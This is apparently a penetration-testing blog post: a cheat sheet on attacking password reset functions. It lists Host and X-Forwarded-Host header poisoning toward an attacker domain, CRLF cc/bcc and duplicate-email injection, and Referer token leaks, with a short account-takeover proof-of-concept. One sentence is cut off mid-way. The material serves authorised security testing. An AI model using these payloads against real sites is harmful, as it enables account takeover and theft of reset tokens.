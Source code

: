 ```yaml
---
layout: blog_item
title: "Password Reset Testing Cheat Sheet"
date:   2021-06-01 03:29:10
author: Arr0way
description: 'Password reset function assessment cheat sheet, several techniques for assessing password reset functions on web apps and API.'
categories: [cheat-sheet]
tags:
- 'Authentication'
- 'Web Application Penetration Testing'
---
```


* list element with functor item
{:toc}

The following document outlines some key techniques used when assessing password reset function on modern web application and API's, a useful resource for bug bounty hunters and penetration testers when performing password reset security testing.  

<!--more-->

## Check List 

- [ ] Host Header Injection Password Reset Function 
- [ ] Double Host Header Injection Password Reset Function
- [ ] X-Forwarded-Host Header Injection Password Reset Function
- [ ] Email Parameter Manipulation *add attacker controller second email address*

## Header Poisoning 

### Host: Header Injection Password Reset URL

The following headers can be modified in an attempt to modify the password reset token URL to an attacker controlled domain. Potentially allowing an attacker to obtain the reset token when a user clicks the link to perform a password reset. 

#### Potential Vulnerable Headers 

##### Host Header Password Reset

Replace the Host: header with a server you control.

```
Host: attackers-domain.com
```

##### Double Host Header Password Reset Filter Bypass

Often when you modify the Host header the application, or WAF fails to the process the request, a technique which can potentially bypass this filter if to simply add a second Host header to the request. 

```
Host: target.com
Host: attackers-domain.com
```

##### X-Forwarded-Host Header Password Reset 

Add an attacker controlled domain in the X-forwarded-Host header directive.

```
Host: target.com 
X-Forwarded-Host: attackers-domain.com
``` 


#### Confirm Vulnerable 

1. Perform a password reset normally, and modify the host header with a different url
2. Check the email sent by the application has the test url, not the applications url

#### PoC 

1. Replace vulnerable header with the attacker controlled domain 
2. Send the request
3. Wait for the victim to click reset link (or show PoC to a second account)
4. Exatract the token from the webserver logs you control
5. Use the extracted token to take over the user account

## Password Reset Token Filter Bypass

If the app is built on ruby, try adding a .json extension to the end of the password reset URL. In certain circumstances ACL bugs may exist, adding the extension could potentially bypass any additional layers of protection the application has in in place.

1. Add a .json to the reset token
2. Observe the applications response to see if the 

## Email Parameter Manipulation

### Password Change Functions

#### Intercept & Change the Email

1. Interecept the request, and replace the email address to one that you control 

### Password Reset Functons

#### Add Second Email 

Vulnerable applications can be manipulated to send password reset codes to multiple email addresses.  

1. Interecept the request, and add a second email address to the request

```
&
%20
|
%0a%0dcc:
%0a%0dbcc:
```
 
Modify the parameter matching the applications format, example:

``
email="victim@mail.tld",email="attacker@mail.tld"
```

<div class="note tip">
  <h5>Match the API Request Schema</h5>
  <p>Match the application / API's request formatting when adding the additional email address.</p>
</div>


## Password Token Referral Header Leak 

Vulnerable applications leak the password reset URL via the referal header. 

Assess the target using an intercepting proxy to identify if the referral header leaks the token through the referral header. 


Enjoy.

